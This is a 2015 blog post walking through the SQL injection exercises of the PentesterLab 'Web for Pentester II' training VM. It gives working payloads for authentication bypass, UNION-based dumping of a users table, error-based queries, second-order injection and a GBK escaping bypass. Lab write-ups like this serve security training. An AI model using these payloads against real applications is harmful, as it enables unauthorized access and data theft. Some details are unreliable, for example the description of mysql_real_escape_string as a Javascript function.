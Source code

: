 ```yaml
---
layout: post
title: Web for Pentester II - SQL Injection
date: 2015-08-20 
author: Simon
comments: true
summary: All the solutions of SQL injection part of Web for Pentester II
categories: Web_Penetration
tags: 
 - Web penetration
 - SQL injection
---
```


##  Background 
SQL injection is a type of vulnerabilities of SQL syntax. Based on SQL commands knowledgement, you can insert your own query into the origin code to bypass the authentication page or to get sensitive information. There are a bunch of good free examples for web penetration testing in [Pentester Lab](http://pentesterlab.com). In this article, we will go through each example of SQL injection in [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II). Make sure you give the VM at least 1 GB of RAM, and host-only network. OK, now open the page and get started, Using nmap or typing ifconfig in the VM to get the IP. 

##  Solutions 
### Example 1
It's pretty straightforward. Use the very basic injection technique. Type the following in the username. As the course of pentester lab stated, password is usually hashed or encrypted, so it's better to perform this in username.
{% highlight sql %}
' or 1=1 #
{% endhighlight %}
Note that assume the original query is like
{% highlight sql%}
SELECT * FROM users WHERE username='******' AND password='******'
{% endhighlight %}
single quote ' can be used to escape from string, and insert query. After we send the request, the query would be like 
{% highlight sql%}
SELECT * FROM users WHERE username='' or 1=1 # ' AND password=''
{% endhighlight %}
The WHERE clause became always true, and things after # was commented out, so then the server got a result, and we are done.


### Example 2
In this example, the number of users returned is restricted.
{% highlight sql %}
' or 1=1 LIMIT 1 #
{%endhighlight%}


### Example 3
In this example, single quotes are removed in the query, but it's still breakable by using '\'. The query will become like
{% highlight sql %}
SELECT * FROM users WHERE username='\' AND password=' or 1=1 #'
{%endhighlight%}
The second single quote is turned to a character by backslash. The actual username in the query is "\' AND password=". The string is closed by the first quote of password.

### Example 4
There is no text box, so look at the address bar. 
{% highlight sql %}
.../example4/?req=username%3d%27hacker%27
{% endhighlight  %}
Decode the url, 
{% highlight sql %}
username='hacker'
{% endhighlight %}
This gives the server a username, and this string is likely to be in WHERE clause. To confirm this, change the url to
{% highlight sql %}
.../example4/?req=username='
{% endhighlight %}
This gives you an sql query error, which shows the actual query. The entire string after "req=" is in WHERE clause. Chagne the url to this.
{% highlight sql %}
.../example4/?req=' or 1=1 #
{% endhighlight %}


### Example 5
This is a union-based SQL injection.
{%highlight sql%}
.../example5/?limit=3 union all select * from users
{%endhighlight%}


###Example 6 
Change the url to
{%highlight sql%}
.../example5/?group=username union all select * from users
{%endhighlight%}
or simple delete group
{%highlight sql%}
.../example5/?
{%endhighlight%}
This is a dump example using group by.


### Example 7
Pentester lab provides an error-pone statement, 
{%highlight sql%}
extractvalue('%3Cxml%3E',concat(%22/%22,(select%20version())))
{%endhighlight%}
but I prefer to just use a single quote here, which has the same result on web for pentester II pages.
With an error message displayed, you can easily see the structure of the query.
![msg](http://i.imgur.com/1iWLWTB.png) 
Same as example 6, delete suffix or use union-based injection to display all users.


### Example 8
Create a few users randomly first. Create a new user named the following:
{%highlight sql%}
' union all select * from users where username='whatever_you_want_to_check' #
or 
' union all select * from users where id='whichever_you_want_to_check' #
{%endhighlight%}
With this user, you may check any user you want. The vulnerability of this one is that the value coming crom database is usually seen as trustable.


### Example 9
This page uses a Javascript function  mysql_real_escape_string(), which removes any escape that you enter in. However, this function does not work properly with GBK character. with a GBK character, followed by a single quote, this quote will not be removed. Enter the following to bypass the authentication.
{%highlight sql%}
呵' or 1=1 #
{%endhighlight%}



